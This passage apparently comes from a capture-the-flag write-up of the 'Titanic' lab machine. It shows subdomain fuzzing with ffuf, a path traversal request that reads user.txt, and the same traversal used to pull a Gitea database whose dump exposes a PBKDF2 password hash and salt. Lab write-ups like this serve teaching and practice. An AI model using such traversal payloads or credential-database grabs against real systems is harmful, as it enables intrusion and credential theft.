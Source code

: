 ```
<SNIP>
```
Before we begin to enumerate this user any further I will do some enumeration in the background and look for some vhosts
```
ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt:FUZZ -u http://titanic.htb/ -H 'Host: FUZZ.titanic.htb' -mc 200 -s
dev
```
I will then add this into my hosts file.

I can then try to download user.txt 
```
GET /download?ticket=../../../../home/developer/user.txt HTTP/1.1
Host: titanic.htb
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://titanic.htb/
DNT: 1
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Sec-GPC: 1
Priority: u=0, i
```
It works 
```
HTTP/1.1 200 OK
Date: Sun, 27 Apr 2025 23:59:53 GMT
Server: Werkzeug/3.0.3 Python/3.10.12
Content-Disposition: attachment; filename="../../../../home/developer/user.txt"
Content-Type: text/plain; charset=utf-8
Content-Length: 33
Last-Modified: Sun, 27 Apr 2025 22:42:04 GMT
Cache-Control: no-cache
ETag: "1745793724.3145938-33-3221623182"
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive

710b939332261a6c829e2cfb7e7xxxxx
```
Looking at `dev.titanic.htb` we can see it directs us to a gitea page, from our LFI vuln we found we can look for this on user. I referred to chatgpt asking where the most common places for gitea databases were, it initially gave me /var/lib though I figured it would most likely to be in the home directory of this user, so I manipulated the path to look like
```
../../../../home/developer/gitea/data/gitea/gitea.db
```
If we curl this we would get a very large output, I piped it into a .txt file and then looked for hashes. 
```
M7
!developerdeveloperdeveloper@titanic.htbenablede531d398946137baea70ed6a680a54385ecff131309c0bd8f225f284406b7cbc8efc5dbef30bf1682619263444ea594cfb56pbkdf2$50000$500ce6f07fc9b557bc070fa7bef76a0d158bf3e3452b78544f8bee9400d6936d34en-USf¬¹>f¬×f¬×ÿe2d95b7e207e432f62f3508be406c11bdeveloper@titanic.htbgitea-auto`0
```
Great, we can see that this is using a pbkdf2 algorithm, we can also see that it also uses 50000 iterations. 

